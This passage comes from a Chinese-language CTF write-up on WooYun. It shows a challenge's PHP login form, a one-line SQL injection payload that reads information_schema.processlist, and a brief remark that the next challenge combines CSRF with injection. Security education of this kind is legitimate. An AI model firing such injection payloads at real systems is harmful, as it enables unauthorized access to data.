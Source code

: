 ```
<div><?php echo $chall->lang('username'); ?>: <input type="text" name="username" value="" /></div>
<div><?php echo $chall->lang('password'); ?>: <input type="text" name="password" value="" /></div>
<div><input type="submit" name="login" value="<?php echo $chall->lang('login'); ?>" /></div>
</form>
</div>
<?php
echo $chall->copyrightFooter();
require_once('challenge/html_foot.php');

```

利用方式：

```
' union select 1,2,info from information_schema.processlist-- - 
```

## Credit Card Challenge Pwned!

* * *

这题描述特别长，看了半天就是发送一个页面给管理员，csrf+injection。

版权声明：未经授权禁止转载 [蓝蓝](http://drops.wooyun.org/author/蓝蓝 "由 蓝蓝 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [php4fun.sinaapp.com PHP 挑战通关攻略](http://drops.wooyun.org/papers/660)
*   [Attacking MongoDB](http://drops.wooyun.org/papers/850)
*   [Hack.lu 2014 Writeup](http://drops.wooyun.org/tips/3420)
*   [WordPress 3.8.2 cookie 伪造漏洞再分析](http://drops.wooyun.org/papers/1409)
*   [SQL Injection via DNS](http://drops.wooyun.org/tips/4605)
*   [Wordpress 3.8.2 补丁分析 HMAC timing attack](http://drops.wooyun.org/papers/1404)